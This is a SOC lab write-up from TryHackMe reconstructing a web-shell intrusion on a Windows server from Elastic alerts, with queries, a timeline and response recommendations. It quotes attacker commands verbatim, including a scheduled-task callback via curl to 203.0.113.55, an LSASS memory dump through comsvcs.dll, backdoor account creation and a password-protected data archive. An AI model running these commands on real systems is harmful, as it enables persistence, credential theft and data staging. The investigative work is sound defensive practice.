








# Elastic Web Attack Investigation

**Lab:** Alert Triage with Elastic — TryHackMe  
**Analyst:** Quy Pham  
**Incident date:** July 20, 2025  
**Assessment:** True positive — correlated malicious activity  
**Recommended priority:** Critical

## Executive summary

I investigated five related alerts involving `winserv2019.some.corp`. Starting with suspicious POST requests from `203.0.113.55`, I pivoted through web logs, Windows authentication events, process activity, and account-management events to reconstruct the attack sequence.

The evidence shows requests to `/ecp/proxyLogon.ecp`, followed by command-bearing requests to `/errorEE.aspx`. Later activity included an Administrator logon, creation of `svc_backup`, commands adding that account to privileged groups, and a WinRAR command targeting user documents and administrative scripts. The original investigation notes also recorded a scheduled-task command and an LSASS dumping command submitted through the suspected web shell.

Taken together, these findings support a true-positive verdict and urgent escalation. The supplied evidence does not establish the exact exploit, successful credential extraction, the method used for the Administrator logon, or completed data exfiltration.

> **Evidence scope:** This write-up is based on the supplied investigation notes and 15 screenshots, not a fresh search of the underlying logs. Times follow the supplied Elastic displays; confirm the display timezone before correlating with other systems. Response actions below are recommendations, not actions performed in this lab.

## Contents

- [Alert overview](#alert-overview)
- [Attack timeline](#attack-timeline)
- [Investigation](#investigation)
- [Key indicators and artifacts](#key-indicators-and-artifacts)
- [Verdict and evidence gaps](#verdict-and-evidence-gaps)
- [Recommended response](#recommended-response)
- [Lessons learned](#lessons-learned)
- [Evidence index](#evidence-index)

## Alert overview

| Alert time | Alert | Severity | Alert ID |
|---|---|---|---|
| 04:38:40 | Web Requests Indicating File Upload | High | SOC-20250720-0012 |
| 04:45:31 | GET Requests to ASPX File with Query Parameters | High | SOC-20250720-0013 |
| 05:11:22 | Administrator Access Outside of Business Hours | High | SOC-20250720-0014 |
| 05:13 — minute shown in alert list | New User Account Created | Critical | Not shown in supplied evidence |
| 05:13:15 | Unusual Command-Line Behavior: Privilege Changes | Critical | SOC-20250720-0016 |

The first two alerts identify `203.0.113.55` as the client and `winserv2019.some.corp` as the destination. The later alert cards identify the same host and the `Administrator` account.



## Attack timeline

All entries below are on **July 20, 2025**. This sequence correlates events; it does not prove every causal link between them.

| Time | Activity | Evidence and interpretation |
|---|---|---|
| 04:38:40–04:43:54 | Three POST requests to `/ecp/proxyLogon.ecp` | Web logs show `python-requests/2.25.1` and HTTP 200 responses; suspected exploitation activity. |
| 04:45:31–04:47:17 | Commands submitted through `/errorEE.aspx?cmd=` | Requests include identity, privilege, host, network, account, and share discovery. |
| 04:48:24 | Scheduled-task creation command | Notes record a `WinUpdate` task intended to contact the source IP every five minutes; task creation success is unconfirmed. |
| 04:50:43–04:51:52 | Service and file-system discovery | Requests include service enumeration and a search of `C:\inetpub`. |
| 04:58:20–05:05:17 | Suspected credential-access attempt | Notes record `Get-Process lsass` and a `comsvcs.dll` memory-dump command; successful dumping is unconfirmed. |
| 05:11:22.545 | Administrator authentication | Event 4624 confirms a successful logon on the affected host. |
| 05:11:27–05:12:59 | Desktop processes and command prompt | Notes describe `userinit.exe`, `explorer.exe`, and then `cmd.exe`; logon method remains unverified. |
| 05:13:09–05:13:10 | Creation of `svc_backup` | Notes record a domain-account creation command; the Security screenshot shows Event 4720 at 05:13:10.009. |
| 05:13:15–05:13:28 | Group membership changes | Three `net.exe` commands are followed by Event 4732 records. |
| 05:17:55.918 | Archive command targeting documents and scripts | `Rar.exe` is launched with output path `C:\Temp\finance_it_archive.rar`; archive completion and outbound transfer are unconfirmed. |

## Investigation

### 1. Validate the suspicious web requests

I filtered the web logs for POST requests from the alert's client IP.

```kql
_index:weblogs and client.ip:203.0.113.55 and http.request.method:"POST"
```

**Observed:** Three requests targeted `/ecp/proxyLogon.ecp` at 04:38:40, 04:39:23, and 04:43:54. Each used `python-requests/2.25.1` and received HTTP 200.

**Assessment:** The endpoint and automated client are suspicious in the context of the subsequent activity. The request path alone does not establish which vulnerability was exploited, and an HTTP 200 response does not prove successful exploitation or file upload.



### 2. Investigate the suspected web shell

The next alert reported GET requests to `errorEE.aspx` containing a `cmd=` parameter. I pivoted to those requests.

```kql
_index:weblogs and client.ip:203.0.113.55 and http.request.method:"GET" and errorEE.aspx
```

**Observed:** The query returned 20 documents. Visible requests used `curl/8.14.1` and included commands consistent with discovery and post-compromise activity.

| Purpose | Commands recorded in the evidence |
|---|---|
| Identify execution context | `whoami`, `whoami /priv`, `whoami /groups`, `hostname` |
| Inspect network configuration and connections | `ipconfig /all`, `netstat -ano` |
| Enumerate accounts and privileged groups | `net user`, `net localgroup administrators`, `net group "Domain Admins" /domain` |
| Discover shares | `net share` |
| Enumerate services | `sc query state= all` |
| Explore the web directory | `dir C:\inetpub\ /s /tw /od` |
| Inspect DNS settings | Notes describe a `wmic nicconfig` command requesting `DNSServerSearchOrder`; the complete command was not retained. |

**Assessment:** Repeated requests supplying operating-system commands strongly support suspected web-shell use. The web logs establish that commands were submitted; they do not independently show each command's output or successful execution.



The notes record the following scheduled-task command at **04:48:24**:

```text
schtasks /create /tn "WinUpdate" /tr "cmd.exe /c curl http://203.0.113.55/ping.php >> C:\Windows\Temp\beacon.log 2>&1" /sc minute /mo 5
```

This command attempts to establish a recurring callback and write its output to `beacon.log`. Task-creation events, task artifacts, and subsequent network activity are needed to confirm persistence.

The notes also record a suspected credential-access sequence between **04:58:20 and 05:05:17**: two `Get-Process lsass` commands followed by:

```text
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 580 C:\Windows\Temp\lsass.dmp full
```

This is an attempted memory dump targeting PID 580, described in the notes as LSASS. The supplied screenshots do not display the full credential-access sequence. Confirm the process identity, execution result, and dump-file creation before claiming credentials were obtained.



### 3. Correlate the Administrator logon

I investigated the out-of-hours Administrator alert with the following recorded query:

```kql
@timestamp >= "2025-07-20T05:11:22" and winlog.event_id:4624 and host.name:winserv2019.some.corp and winlog.event_data.TargetUserName:Administrator
```

**Observed:** One matching Event 4624 appears at **05:11:22.545**, confirming successful authentication on the affected host.



The notes describe desktop startup processes followed by `explorer.exe` spawning `cmd.exe` at 05:12:59. This supports an interactive session, but the supplied 4624 screenshot does not expose the logon type, source address, or authentication details.

**Assessment:** The timing and subsequent account changes make this logon suspicious. It is not yet established that it used credentials obtained from LSASS. RDP access also remains unconfirmed. An existing Administrator account logging on is not, by itself, proof of privilege escalation.

### 4. Investigate account creation

The notes record this command at approximately **05:13:09**:

```text
net user svc_backup Passw0rd123! /add /domain
```

I then reviewed Security account-management events:

```kql
@timestamp >= "2025-07-20T05:13:10.000" and winlog.channel:Security and winlog.task:User Account Management
```

**Observed:** The screenshot includes Event 4720, “A user account was created,” at **05:13:10.009**, followed by account enablement, password-reset-attempt, and account-change events. The original notes identify the new account as `svc_backup`; the collapsed screenshot does not expose the target account fields.

**Assessment:** The account-creation command and subsequent membership changes support creation of an account for continued access. Confirm the target SID and account domain in the expanded events to complete the evidence chain.



### 5. Validate privilege changes

I searched for commands launched from `cmd.exe` by `Administrator`:

```kql
@timestamp >= "2025-07-20T05:13:15" and process.parent.name:cmd.exe and user.name:Administrator
```

**Observed:** Three commands targeted the new account:

| Time | Command | Investigative significance |
|---|---|---|
| 05:13:15.436 | `net localgroup "Server Operators" svc_backup /add` | Attempts to grant membership in Server Operators. |
| 05:13:22.251 | `net localgroup "Remote Desktop Users" svc_backup /add` | Attempts to grant RDP-related group membership; actual access still depends on policy and service configuration. |
| 05:13:27.999 | `net localgroup Administrators svc_backup /add` | Attempts to grant administrative group membership. |



I broadened the search to correlate process activity with membership-change events:

```kql
@timestamp >= "2025-07-20T05:13:15" and (winlog.event_id:4732 or process.parent.name:cmd.exe)
```

Each command is followed closely by an Event 4732 record, supporting successful group additions. For definitive attribution, match the member SID, target group, and subject account in the expanded events. The notes also report corresponding `net1.exe` activity; treat that as related process activity rather than counting it as additional account changes.

**Assessment:** This sequence supports privileged-account persistence. The new account gains privileges; the already privileged Administrator session does not need to escalate simply to issue these commands.

### 6. Identify potential data staging

The broader query also revealed `Rar.exe`, launched from `cmd.exe` at **05:17:55.918**. The visible command line is:

```text
"C:\Program Files\WinRAR\rar.exe" a -hpSpring2025! -m5 C:\Temp\finance_it_archive.rar C:\Users\asmith\Documents\* C:\IT\Admin\Scripts\*
```

**Observed:** The command targets both `asmith`'s documents and IT administrative scripts. The working directory is `C:\Users\svc_backup.SOME\`.

**Assessment:** This is consistent with an attempt to package data for staging. The working directory alone does not prove the process ran as `svc_backup`; inspect the process user and logon identifiers. Process creation proves the archiver was launched, not that the archive was successfully written or transferred outside the environment.



## Key indicators and artifacts

These values are investigation pivots from the lab, not independently reputation-checked threat intelligence.

| Type | Value | Context |
|---|---|---|
| Client IP / callback target | `203.0.113.55` | Web requests and the recorded scheduled-task callback |
| Affected host | `winserv2019.some.corp` | Common host across the alert sequence |
| Privileged account | `SOME\Administrator` | Account described in the notes; Administrator authentication and command activity |
| Newly created account | `svc_backup` | Account creation and privileged group additions |
| HTTP paths | `/ecp/proxyLogon.ecp`, `/errorEE.aspx` | Suspected exploitation and web-shell interaction |
| User agents | `python-requests/2.25.1`, `curl/8.14.1` | Automated web requests |
| Task / callback | `WinUpdate`, `http://203.0.113.55/ping.php` | Intended recurring callback recorded in notes |
| Output paths | `C:\Windows\Temp\beacon.log`, `C:\Windows\Temp\lsass.dmp` | Intended callback output and memory dump; file creation unconfirmed |
| Archive path | `C:\Temp\finance_it_archive.rar` | Intended archive output |
| Collection sources | `C:\Users\asmith\Documents\*`, `C:\IT\Admin\Scripts\*` | Inputs to the archive command |

## Verdict and evidence gaps

**Classification: True positive.** The command-bearing web requests, closely timed Administrator activity, account creation, privileged group changes, and archive command form a coherent malicious sequence in this lab. I would recommend critical-priority escalation because the activity involves privileged access and potential credential and data exposure.

An automated user agent, an out-of-hours logon, or an archiving tool can each be benign in isolation. The correlated behavior is the basis for this verdict. In a live investigation, validate change records and authorized administrative activity as part of triage.

| Conclusion | Evidence boundary |
|---|---|
| Suspected exploitation and web-shell use | Exact vulnerability, uploaded file contents, and command outputs are not supplied. |
| Scheduled-task persistence attempt | Full command is retained in notes; task creation and callbacks are not confirmed. |
| Suspected LSASS dumping attempt | Recorded in notes; dump creation and credential extraction are not confirmed. |
| Successful Administrator authentication | Event 4624 is visible; source, logon type, and relationship to credential dumping remain unresolved. |
| Account creation and privileged group changes | Supported by notes, commands, and matching event timing; expand events to verify account and group SIDs. |
| Potential data staging | Archive command is visible; completed archive creation and exfiltration are not confirmed. |
| Known scope | One identified host; broader compromise has not been established. |

## Recommended response

**Work completed:** Reviewed the supplied alert evidence, correlated the documented queries and findings, reconstructed the sequence, and recorded the assessment. No containment, eradication, credential reset, or production change is documented.

1. **Contain and preserve evidence.** Escalate to incident response and isolate or restrict the affected server according to the response playbook. Preserve relevant volatile evidence, web/WAF logs, Security events, process telemetry, and suspicious files before cleanup.
2. **Secure affected accounts.** Investigate and disable unauthorized `svc_backup` access, remove unauthorized memberships, and revoke associated sessions. Reset exposed credentials in coordination with containment and determine whether additional domain-level response is required.
3. **Validate persistence and credential access.** Inspect `errorEE.aspx`, the `WinUpdate` task, the callback log, and the suspected LSASS dump. Confirm their creation and execution through endpoint evidence.
4. **Scope the incident.** Hunt across hosts for the client IP, web paths, account, task name, commands, and file paths. Correlate logon IDs and SIDs to determine whether `svc_backup` was used elsewhere.
5. **Investigate data exposure.** Determine whether the archive exists, identify its contents, and review outbound transfers after its creation. Do not classify the activity as confirmed exfiltration without transfer evidence.
6. **Eradicate and recover.** After evidence collection, remove verified malicious artifacts, remediate the confirmed entry point, and restore or rebuild the host as warranted. Monitor for recurring callbacks, account changes, and renewed web-shell activity.

For escalation, include the affected host and accounts, timeline, saved queries, screenshots, confirmed findings, open questions, and containment status.

## Lessons learned

- Correlate alerts across web, authentication, process, and account-management telemetry to reconstruct the incident.
- Separate command submission, process execution, and successful outcomes. Each requires different evidence.
- Correlate group-change commands with Event 4732 and verify the member and group fields rather than relying only on timing.
- Treat file archiving as potential staging until file and network evidence establish what happened next.
- Record a bounded time range, timezone, host, and relevant account identifiers when reproducing searches. The queries above preserve the original investigation searches and were not rerun for this write-up.

## Evidence index

All 15 supplied screenshots are retained with descriptive filenames. The main narrative embeds the most useful views; supporting screenshots are linked below.

| Original file | Reorganized evidence | Description |
|---|---|---|
| `image.png` | [01-alert-overview.png](media/01-alert-overview.png) | Five-alert queue |
| `image-1.png` | [02-web-upload-alert.png](media/02-web-upload-alert.png) | Initial POST-request alert |
| `image-4.png` | [03-post-request-results.png](media/03-post-request-results.png) | Three POST requests |
| `image-2.png` | [04-aspx-command-alert.png](media/04-aspx-command-alert.png) | ASPX command-parameter alert |
| `image-3.png` | [05-web-shell-discovery.png](media/05-web-shell-discovery.png) | Command-bearing GET requests |
| `image-5.png` | [06-web-shell-follow-on.png](media/06-web-shell-follow-on.png) | Task, service, and file-system commands |
| `image-6.png` | [07-discovery-detail.png](media/07-discovery-detail.png) | Additional discovery view |
| `image-7.png` | [08-administrator-alert.png](media/08-administrator-alert.png) | Out-of-hours Administrator alert |
| `image-9.png` | [09-administrator-logon.png](media/09-administrator-logon.png) | Successful-logon event |
| `image-8.png` | [10-account-management-events.png](media/10-account-management-events.png) | Account creation and related events |
| `image-11.png` | [11-privilege-change-alert.png](media/11-privilege-change-alert.png) | Critical privilege-change alert |
| `image-13.png` | [12-group-change-commands.png](media/12-group-change-commands.png) | Three group-add commands |
| `image-12.png` | [13-group-event-correlation.png](media/13-group-event-correlation.png) | Commands correlated with Event 4732 |
| `image-14.png` | [14-group-events-and-archive.png](media/14-group-events-and-archive.png) | Correlation results and full archive command |
| `image-10.png` | [15-duplicate-administrator-alert.png](media/15-duplicate-administrator-alert.png) | Duplicate Administrator alert; originally mislabeled as the new-account alert |

**Repository layout:** Keep this `README.md` alongside the `media/` directory so all relative image and evidence links resolve on GitHub.
